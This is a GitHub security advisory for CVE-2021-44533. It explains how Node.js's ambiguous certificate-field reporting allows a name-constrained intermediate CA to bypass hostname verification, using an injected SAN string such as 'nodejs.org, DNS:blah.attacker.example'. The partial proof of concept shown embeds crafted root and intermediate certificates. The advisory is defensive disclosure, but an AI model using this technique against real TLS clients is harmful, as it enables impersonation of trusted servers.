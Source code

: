 ```yaml
---
title: 'Node: Node.js certificate verification bypass via string injection'
published: '2022-01-29T17:27:53Z'
severity: Moderate
ghsa_id: GHSA-qj66-5v86-jmjc
cve_id: CVE-2021-44533
weaknesses: []
products:
- ecosystem: npm
  package_name: node
  affected_versions: '>=0.5.6'
  patched_versions: '>=17.4.0'
cvss: null
credits: []
---
```


### Summary
Node’s APIs for reporting certificate fields are ambiguous and allow bypassing certificate verification in some circumstances.

### Severity
Medium - Node misinterprets certificate contents in name validation. This can cause certificate verification bypasses in some circumstances. For example, the holder of a name-constrained intermediate can trick Node into accepting certificates for a name outside the constraint. This attack requires either an attacker having a name-constrained intermediate CA or have some other way for the attacker to obtain a signed certificate for an invalid subdomain (eg, `nodejs.org, DNS:x`) or other equivalent attack scenarios.

### Proof of Concept
The following program demonstrates a certificate chain with an intermediate constrained to `attacker.example` and a leaf certificate with a _single_ subject alternative name (SAN) entry, `nodejs.org, DNS:blah.attacker.example`. This string contains `.attacker.example` as a suffix, so OpenSSL's certificate verifier accepts it as matching the name constraint. However, as that single string does not match `nodejs.org`, the certificate should not be accepted for `nodejs.org`.

```javascript
const crypto = require("crypto");
const fs = require("fs");
const tls = require("tls");

const rootPEM = `-----BEGIN CERTIFICATE-----
MIIBQTCB56ADAgECAgEBMAoGCCqGSM49BAMCMA8xDTALBgNVBAMTBFJvb3QwIBcN
MDAwMTAxMDAwMDAwWhgPMjA5OTAxMDEwMDAwMDBaMA8xDTALBgNVBAMTBFJvb3Qw
WTATBgcqhkjOPQIBBggqhkjOPQMBBwNCAAR7DaOQvpvA47q2XxjMqxJVf/FvZm2f
tiFRXNJMe/fhSlDh2CybdkFIw2mE5g4ShW5UBJe+sohqy5V9WRkYtM/BozIwMDAP
BgNVHRMBAf8EBTADAQH/MB0GA1UdDgQWBBQlGcYbYohaK3S+XGeqCTi4LLHeLTAK
BggqhkjOPQQDAgNJADBGAiEA+Y5oEpcG6aRK5qQFLYRi2FrOSSLF1/dI4HtBh0mk
GFoCIQD1DpNg6m5ZaogRW1mY1wmR5HFIr3gG8PYDRimQogXUxg==
-----END CERTIFICATE-----
`;
const intermediatePEM = `-----BEGIN CERTIFICATE-----
MIIBjjCCATSgAwIBAgIBAjAKBggqhkjOPQQDAjAPMQ0wCwYDVQQDEwRSb290MCAX
DTAwMDEwMTAwMDAwMFoYDzIwOTkwMTAxMDAwMDAwWjAXMRUwEwYDVQQDEwxJbnRl
cm1lZGlhdGUwWTATBgcqhkjOPQIBBggqhkjOPQMBBwNCAAR7DaOQvpvA47q2XxjM
qxJVf/FvZm2ftiFRXNJMe/fhSlDh2CybdkFIw2mE5g4ShW5UBJe+sohqy5V9WRkY
tM/Bo3cwdTAPBgNVHRMBAf8EBTADAQH/MB0GA1UdDgQWBBQlGcYbYohaK3S+XGeq
CTi4LLHeLTAfBgNVHSMEGDAWgBQlGcYbYohaK3S+XGeqCTi4LLHeLTAiBgNVHR4B
Af8EGDAWoBQwEoIQYXR0YWNrZXIuZXhhbXBsZTAKBggqhkjOPQQDAgNIADBFAiEA
uZhmF3buUdhzHjXLZQSOyT41DqUUX/VKBEraDu+gj+wCIG/R1arbHFRFnEuoVgZI
bihwUpUZjIZ5YwJcBu6yuXlZ
-----END CERTIFICATE-----
```